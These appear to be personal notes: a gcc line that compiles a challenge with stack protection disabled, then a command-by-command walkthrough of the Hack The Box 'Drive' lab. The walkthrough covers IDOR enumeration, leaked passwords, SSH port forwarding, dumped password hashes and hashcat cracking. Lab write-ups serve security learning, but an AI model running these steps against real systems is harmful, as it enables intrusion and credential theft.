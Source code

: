 # exploit education
  https://exploit.education/
  ```
  gcc -fno-stack-protector -z execstack -g challenge.c -o s0
  
  ```
  
# GDB

  
## HTB: Drive (gdb related)

```
1. find ports 22,80,3000 open; add /etc/hosts
2. Upload random file, and click "Reserve" this file. URL will be "http://drive.htb/{fileID}/block/"
3. The URL is vulnerable to IDOR; use Burp Intruder find the ID with file associated.
4. Get user/pass: martin/"Xk4@KjyrYv8t194L!" on ID 79.
5. use cmd "ss -tlpn", find out the device listening TCP ports: 33060, 3306, 80, 53, 22, 80, 3000.
6. cannot find anything here, try to port forward 3000 to attacker`s machine which has browser.
	a. martin@drive:/var/www/backups$ ls
 	  1_Dec_db_backup.sqlite3.7z  1_Oct_db_backup.sqlite3.7z  db.sqlite3
	  1_Nov_db_backup.sqlite3.7z  1_Sep_db_backup.sqlite3.7z
	  (cannot use martin`s password to unzip the 7z files.)
	b. Cannot use martin`s password or root with no pass to visit local mysql server(3306)
7. cmd: ssh -L 8080:127.0.0.1:3000 martin@drive.htb
8. attacker browser visit: localhost:8080 (find Gitea website)
9. Gitea->Explore page->Users-> find user "martinCruz". login by password of martin.
10. in commit history find "7z a -p'H@ckThisP@ssW0rDIfY0uC@n:)' /var/www/backups/${date_str}_db_backup.sqlite3.7z db.sqlite3"
11. martin@drive:~$ 7z e -p'H@ckThisP@ssW0rDIfY0uC@n:)' ./1_Sep_db_backup.sqlite3.7z -so > /home/martin/Sep.sqlite3
12. martin@drive:~$ sqlite3 Dec.sqlite3
	.tables
	select * from accounts_customuser;
  (sqlite> SELECT * from accounts_customuser;
  16|pbkdf2_sha256$390000$ZjZj164ssfwWg7UcR8q4kZ$KKbWkEQCpLzYd82QUBq65aA9j3+IkHI6KK9Ue8nZeFU=|2022-12-26 06:21:34.294890|1|admin|||admin@drive.htb|1|1|2022-12-08 14:59:02.802351
 ***)
 Which is pbkdf2_sha256, an industry-standard hashing algorithm, cannot brute-force
13. Choose other databases, one of them cmd: sqlite3 Oct.sqlite3
    sqlite> select * from accounts_customuser;
	21|sha1$W5IGzMqPgAUGMKXwKRmi08$030814d90a6a50ac29bb48e0954a89132302483a|2022-12-26 05:48:27.497873|0|jamesMason|||jamesMason@drive.htb|0|1|2022-12-23 12:33:04
	22|sha1$E9cadw34Gx4E59Qt18NLXR$60919b923803c52057c0cdd1d58f0409e7212e9f|2022-12-24 12:55:10|0|martinCruz|||martin@drive.htb|0|1|2022-12-23 12:35:02
	23|sha1$Ri2bP6RVoZD5XYGzeYWr7c$71eb1093e10d8f7f4d1eb64fa604e6050f8ad141|2022-12-26 06:02:42.401095|0|tomHands|||tom@drive.htb|0|1|2022-12-23 12:37:45
	24|sha1$ALgmoJHkrqcEDinLzpILpD$4b835a084a7c65f5fe966d522c0efcdd1d6f879f|2022-12-24 16:51:53|0|crisDisel|||cris@drive.htb|0|1|2022-12-23 12:39:15
	30|sha1$jzpj8fqBgy66yby2vX5XPa$52f17d6118fce501e3b60de360d4c311337836a3|2022-12-26 05:43:40.388717|1|admin|||admin@drive.htb|1|1|2022-12-26 05:30:58.003372
    (sha1 is insecure)
14. sqlite> select password from accounts_customuser;
sha1$W5IGzMqPgAUGMKXwKRmi08$030814d90a6a50ac29bb48e0954a89132302483a
sha1$E9cadw34Gx4E59Qt18NLXR$60919b923803c52057c0cdd1d58f0409e7212e9f
sha1$Ri2bP6RVoZD5XYGzeYWr7c$71eb1093e10d8f7f4d1eb64fa604e6050f8ad141
sha1$ALgmoJHkrqcEDinLzpILpD$4b835a084a7c65f5fe966d522c0efcdd1d6f879f
sha1$jzpj8fqBgy66yby2vX5XPa$52f17d6118fce501e3b60de360d4c311337836a3
 (save the hash to file "hash.txt")
15. #hashcat -a 0 -m 124 -o cracked-hashs hash.txt /usr/share/wordlists/rockyou.txt
  #cat cracked-hashs 
```